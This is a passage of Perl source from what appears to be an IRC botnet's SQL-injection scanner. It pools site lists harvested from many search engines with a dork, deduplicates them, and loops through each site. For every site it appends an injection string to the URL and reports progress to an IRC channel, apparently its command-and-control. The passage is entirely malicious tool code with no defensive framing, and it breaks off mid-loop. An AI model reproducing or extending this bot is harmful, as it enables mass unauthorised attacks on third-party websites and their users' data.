             sendraw($IRC_cur_socket, "PRIVMSG $printl :4[4@3SQL-Scanner12]12 Altavista 7[".scalar(@altlist)."7] Sites"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4[4@3SQL-Scanner12]12 Search[dot]com 7[".scalar(@slist)."7] Sites"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4[4@3SQL-Scanner12]12 UoL 7[".scalar(@ulist)."7] Sites"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4[4@3SQL-Scanner12]12 FireBall 7[".scalar(@flist)."7] Sites"); 

              

            push(my @tot, @glist, @mlist, @alist, @allist, @asklist, @aollist, @lycos, @ylist, @mzlist, @mamalist, @hlist,@altlist, @slist, @ulist, @flist ); 

              

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4,16 [ scan ] [ 12Filtruje4 ][ ".scalar(@tot)." 12Stron4 ] "); 

            my @puliti=&unici(@tot); 

              

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4,16 [ SQL ] [ 12$dork4 ][ ".scalar(@puliti)." 12Stron4 ] "); 

           

            my $uni=scalar(@puliti); 

                    

                  foreach my $sito (@puliti) { 

                

                  $contatore++; 

                    if ($contatore %5==0){ 

                       sendraw($IRC_cur_socket, "PRIVMSG $printl :4,16 [ scan ] [ 12Skanuje4 ][ ".$contatore." 12z4 ".$uni. " 12Stron4 ] "); 

                    } 

                  sleep 3; 

                    if ($contatore==$uni-1){ 

                     sendraw($IRC_cur_socket, "PRIVMSG $printl :4,16 [ scan ] [ 12Koniec:4 $bug $dork ] "); 

                    }    

                  sleep 3; 

                    my $site="http://".$sito.$bug; 

                  sendraw($IRC_cur_socket, "PRIVMSG $printl :4,16 [ sql ] [ 12Sprawdzam: 4$site 12cols: 4 $columns ] "); 

           

         $w=int rand(999);    
